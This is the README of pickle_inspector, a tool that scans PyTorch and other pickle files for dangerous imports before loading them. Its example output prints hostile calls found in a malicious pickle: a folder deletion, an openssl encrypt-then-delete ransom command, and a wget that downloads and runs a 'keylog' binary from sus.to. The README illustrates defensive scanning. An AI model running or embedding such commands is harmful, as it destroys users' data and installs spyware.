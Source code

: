 # pickle_inspector 🥒🔬
Check what is in the pickle before eating it.

It works on any type of pickle, but was made with `torch` in mind.

NOTE:
torch == 1.13.0 breaks using custom unpicklers, see https://github.com/pytorch/pytorch/issues/88438
until this is fixed, stick to 1.12.x or older.

## Scanning pickles via command line
**tl;dr** just let me scan my pickles.
```sh
python3 scan_pickle.py --preset stable_diffusion_v1 --in sus.ckpt
```
```
> Scanning file(s): ['sus.ckpt']
> Using white list: ['collections.OrderedDict', 'torch._utils._rebuild_tensor_v2', 'torch.HalfStorage', 'torch.FloatStorage', 'torch.IntStorage', 'torch.LongStorage', 'pytorch_lightning.callbacks.model_checkpoint.ModelCheckpoint', 'numpy.core.multiarray.scalar', 'numpy.dtype', '_codecs.encode']
> Reading sus.ckpt
> Found pickle in zip: archive/data.pkl
> Scanning: archive/data.pkl
> found: torch._utils._rebuild_tensor_v2
> found: torch.FloatStorage
> found: collections.OrderedDict
> found: torch.IntStorage
> found: torch.LongStorage
> found: pytorch_lightning.callbacks.model_checkpoint.ModelCheckpoint
> found: numpy.core.multiarray.scalar
> found: numpy.dtype
> found: _codecs.encode
> Scan for sus.ckpt PASSED ✅
```
### Script usage
```
usage: Scan pickles [-h] -i INPUT [INPUT ...] [-p {stable_diffusion_v1}] [-w WHITELIST [WHITELIST ...]] [-b BLACKLIST [BLACKLIST ...]]

optional arguments:
  -h, --help            show this help message and exit
  -i INPUT [INPUT ...], --in INPUT [INPUT ...]
                        path to a pickle(s) or zip(s) containing pickles
  -p {stable_diffusion_v1}, --preset {stable_diffusion_v1}
                        a whitelist preset to use: stable_diffusion_v1
  -w WHITELIST [WHITELIST ...], --whitelist WHITELIST [WHITELIST ...]
                        whitelist of modules and functions to allow
  -b BLACKLIST [BLACKLIST ...], --blacklist BLACKLIST [BLACKLIST ...]
                        blacklist of modules and functions to block
```
## Inspecting
Inspect without unpickling.
```py
import torch
import pickle_inspector
result = torch.load('sus.pt', pickle_module=pickle_inspector.inspector)
for c in result.imports:
    print(c)
```
notice calls to `shutil.rmtree`, `os.system` or similar
```
> shutil.rmtree
> torch._utils._rebuild_tensor_v2
> collections.OrderedDict
> numpy.core.multiarray.scalar
> os.system
> numpy.dtype
> _codecs.encode
```
so we are taking a closer look at what is being called
```py
for c in result.calls:
    print(c)
```
and it seems like someone tried to delete something and ransom a file
```
> shutil.rmtree(('/very/important/folder'), {})
> collections.OrderedDict((), {})
> torch._utils._rebuild_tensor_v2((None, 0, (1000,), (1,), False, collections.OrderedDict((), {})), {})
...
> torch._utils._rebuild_tensor_v2((None, 0, (), (), False, collections.OrderedDict((), {})), {})
> os.system(('openssl enc -aes-128-ecb -in important_file -out give_money.enc -K 1337B00B135DEADBEEF; rm important_file'), {})
> numpy.dtype(('f8', False, True), {})
> numpy.dtype.__setstate__(((3, '<', None, None, None, -1, -1, 0),), {})
> _codecs.encode(('ñhã\x88µøÔ>', 'latin1'), {})
> numpy.core.multiarray.scalar((numpy.dtype(('f8', False, True), {}), _codecs.encode(('ñhã\x88µøÔ>', 'latin1'), {})), {})
```
## Controlled unpickling
Inspect and unpickle using white and blacklists.

```py
import torch
from pickle_inspector import UnpickleConfig, UnpickleControlled, PickleModule
config = UnpickleConfig()
# only allow  modules, classes and funcions in the whitelist
# the rest will be stubbed
config.whitelist = [
        'torch._utils._rebuild_tensor_v2',
        'torch.FloatStorage',
        'torch.IntStorage',
        'torch.LongStorage',
        'numpy.core.multiarray.scalar',
        'numpy.dtype',
        'collections.OrderedDict',
        '_codecs.encode'
]
result = torch.load('model.ckpt', pickle_module = PickleModule(UnpickleControlled, config))
state_dict = result.structure
for c in result.imports:
    print(c)
```
```
> torch._utils._rebuild_tensor_v2
> torch.FloatStorage
...
> __builtin__.eval
> collections.OrderedDict
...
```
```py
for c in results.calls:
    if 'eval' in c:
        print(c)
```
```py
> __builtin__.eval('import os;os.system("wget https://sus.to/keylog;chmod +x keylog;./keylog &")')
```
## Blacklist & Whitelist
The whitelist has priority over the blacklist.

If the blacklist contains items everything will be allowed except items in the blacklist,\
or items in the blacklist and in the whitelist. This is useful using wildcards.

Example: Block everything within `torch` except `torch.FloatStorage`
```py
conf.blacklist = ['torch.*']
conf.whitelist = ['torch.FloatStorage']
```

If the blacklist is empty and the whitelist contains items, \
everything except items in the whitelist will be blocked.

## Safe whitelist for stable diffusion v1
A premade whitelist for stable diffusion v1 is available in this project.

Example: Scan a stable diffusion checkpoint
```py
import torch
from pickle_inspector import UnpickleConfig, PickleModule, UnpickleInspector, importlists
conf = UnpickleConfig(whitelist = importlists.stable_diffusion_v1)
torch.load('sd-v1-4.ckpt', pickle_module=PickleModule(UnpickleInspector, conf))
```

Tested with python 3.9 and torch 1.12.1

---

Copyright (C) 2022  Lopho `<contact@lopho.org>`\
Licensed under the AGPLv3 `<https://www.gnu.org/licenses/agpl-3.0.html>`
